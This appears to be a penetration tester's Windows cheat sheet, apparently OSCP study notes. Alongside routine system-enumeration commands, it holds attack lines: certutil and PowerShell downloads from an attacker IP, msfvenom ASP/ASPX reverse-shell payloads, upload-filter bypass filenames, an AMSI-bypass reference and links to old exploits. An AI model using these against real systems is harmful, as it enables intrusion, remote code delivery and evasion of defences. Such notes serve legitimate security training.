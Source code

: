 OS architecture 

- powershell

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

- cmd

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

[displays file ownership information](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir)

```cmd
dir /q /a
```

privileges information

```cmd
whoami /priv
whoami /all
whoami /groups
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<attacker ip>/<file>" "C:\Users\<User Account>\Desktop\<file>"
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
Powershell Invoke-WebRequest -OutFile C:\Users\<User Account>\Desktop\<file> -Uri http://<attacker ip>/<file>
```

checking if Windows Defender is active

```powershell
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
#   try filename "rev.aspx..... .. . . ."
#   try filename "rev.aspx.png"
#   try web.config (File_Upload_Bypass.md)
```

get all drives

```powershell
# powershell
gdr -PSProvider 'FileSystem'
```

```cmd
REM cmd
wmic logicaldisk get deviceid, volumename, description
```

SMB

```shell
nmap -p 445 --script vuln <target ip>
```

Kali provides [Windows executables](https://www.kali.org/tools/windows-binaries/)

```shell
# /usr/share/windows-resources/binaries
find / -name whoami.exe 2>/dev/null
windows-binaries -h
```

UNZIP

```cmd
REM Windows 10 build 17063 or later
tar -xf <zip file>
```

Bypass AMSI Powershell (PEN-300)

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```
1. one liners to multiple lines
2. hex encoding
```

list firewall rules

```cmd
Netsh advfirewall firewall show rule dir=in name=all
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

copy file from net share folder

```powershell
Copy-Item -path "\\<target ip or hostname>\<folder($)>" -destination .\ -Recurse
```

check running services

```
Get-Service | where {$_.Status -eq "Running"}
```

find specific files

```cmd
REM command prompt
dir /s C:\Folder\*.txt
```

```powershell
# powershell
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Filter "*.txt"
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Include "*.txt","*.zip","*.conf"
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Include "*.txt","*.zip","*.conf" | Select-String -Pattern pass
```

[registry query](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg)

```cmd
reg query HKEY_LOCAL_MACHINE\Software /f Python
```

[Tasklist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist)

```
tasklist /v
```

Task Scheduler(taskschd.msc)

```
schtasks /query /fo LIST /v
```

Powershell [Get-ScheduledTask Script](https://github.com/tedchen0001/OSCP-Notes/blob/master/Write_Scripts/ScheduledTask.ps1)

convert to command line, replace `\r\n` to `empty string` and `"` to `\"`

```cmd
powershell -command "$ScheduledTasks = Get-ScheduledTask | Where-Object {$_.TaskPath -notlike \"\Microsoft*\" -and $_.TaskName -notlike \"*TEST*\"};foreach ($item in $ScheduledTasks) {    [string]$Name       = ($item.TaskName);    [string]$Action     = ($item.Actions | Select-Object -ExpandProperty Execute);    [datetime]$Start    = ($item.Triggers | Select-Object -ExpandProperty StartBoundary);    [string]$Repetition = ($item.Triggers.Repetition | Select-Object -ExpandProperty interval);    [string]$Duration   = ($item.Triggers.Repetition | Select-Object -ExpandProperty duration);    $splat = @{    'Name'       = $Name;    'Action'     = $Action;    'Start'      = $Start;    'Repetition' = $Repetition;    'Duration'   = $Duration;    };    $obj = New-Object -TypeName PSObject -property $splat;    $obj | Write-Output;};"
```

Powershell 2.0 (Windows 7 & Windows Server 2008 R2)

```powershell
schtasks /query /fo csv -v | ConvertFrom-Csv | ? {$_.TaskName -notlike "\Microsoft\Windows*" -and $_.TaskName -notlike "\Microsoft\Office\*" -and $_.TaskName -notlike "\Microsoft\XblGameSave\*" -and $_.TaskName -notlike "TaskName"}
```

Windows Library Files

```
https://wikileaks.org/ciav7p1/cms/page_13763381.html
https://blog.f-secure.com/abusing-windows-library-files-for-persistence/
```

#### Old Vulnerability

MS08_067 [tool 1](https://github.com/andyacer/ms08_067) [tool 2](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```shell
# check os version
nmap -p <target ports> --script /usr/share/nmap/scripts/smb-os-discovery <target ip>
```

CVE-2019-0708

```
https://github.com/robertdavidgraham/rdpscan
```

CVE-2017-7269

Microsoft Windows Server 2003 IIS 6.0 WebDAV

```
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

CVE-2014-6271

```
https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
```

#### Resources

```
https://ss64.com/
https://lolbas-project.github.io/#
```